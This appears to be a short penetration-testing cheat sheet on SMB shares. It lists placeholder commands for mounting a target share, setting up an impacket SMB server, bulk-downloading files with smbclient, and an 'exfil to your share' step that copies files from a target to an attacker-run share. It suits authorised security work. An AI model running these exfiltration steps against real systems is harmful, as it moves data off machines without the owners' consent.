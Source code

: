 # SMB Shares

##### mount target share
```
mkdir /mnt/[SHARE]
```
```
sudo mount -t cifs -o vers=1.0 //[IP]/[SHARE] /mnt/[SHARE]
```

##### Create an SMB share (Linux)
```
sudo impacket-smbserver [SHARE_NAME] [SHARE_LOCATION]
```

#### exfil to your share
```
cp /[Path]/[File] smb:\\[IP]\[SHARE]\[FILE.EXT]
```

### smbclient
```sh
smbclient //[IP]/[SHARE]
```
```sh
RECURSE ON
PROMPT OFF
mget *
```

### GIO (From Kali)
##### List GIO Shares
```
gio mount -l
```
##### Mount the remote share
```
gio mount smb://[IP]/[SHARE]/
```
##### Copy the file
```
gio copy /[PATH]/[FILE] smb://[IP]/[SHARE]/[FILE]
```
